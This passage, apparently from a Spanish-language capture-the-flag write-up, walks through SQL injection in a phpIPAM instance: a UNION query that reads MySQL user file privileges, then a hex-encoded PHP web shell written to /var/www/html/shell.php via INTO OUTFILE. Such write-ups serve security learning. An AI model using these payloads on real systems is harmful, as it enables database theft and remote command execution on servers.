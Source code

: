 Como puede ver, podemos explotar un `SQLI` aquí, y tenemos la versión y el usuario que ejecuta la base de datos.

`8.0.28-0ubuntu0.20.04.3/phpipam_ollie@localhost (4)`

¡Cool! ¡Hagamos más reconocimiento manual dentro de la base de datos, veamos si nuestro usuario `phpipam_ollie` puede escribir un archivo!

![privs](privs.png)
Explotación utilizado:
`" union all select 1,2,3,group_concat(user,0x3a,file_priv) from mysql.user -- -`

`ollie_mysql:Y,phpipam_ollie:Y`

¡Sí! ¡El usuario puede escribir archivos!

Entonces, para explotar esto, codificamos un payload de PHP simple en HEX:

`<?php system($_GET["cmd"]); ?>`

Y lo agregamos a nuestro exploit:

`" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/shell.php' -- -`
